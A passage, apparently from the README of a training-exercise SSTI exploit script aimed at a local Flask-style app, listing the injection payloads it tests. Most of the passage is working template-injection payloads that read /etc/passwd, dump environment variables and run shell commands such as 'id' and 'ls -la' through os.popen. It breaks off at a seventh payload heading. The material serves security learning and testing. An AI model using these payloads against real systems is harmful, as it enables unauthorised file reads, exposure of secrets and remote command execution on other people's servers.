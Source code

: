 ```bash
# To save the report
python3 ex00/ssti_exploit.py http://localhost:5000 --output report.txt
```

## Payload Types Tested

### 1. Basic Template Evaluation

```python
7*7
```

Tests basic template math evaluation.

### 2. String Operations

```python
"a"+"b"
```

Tests string concatenation capabilities.

### 3. File System Access

```python
self.__init__.__globals__.__builtins__.open('/etc/passwd').read()
```

Tests arbitrary file read capability.

### 4. Command Execution

```python
self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```

Tests system command execution.

### 5. Environment Disclosure

```python
self.__init__.__globals__.__builtins__.__import__('os').environ
```

Tests environment variable exposure.

### 6. Directory Listing

```python
self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read()
```

Tests directory traversal.

### 7. System Information
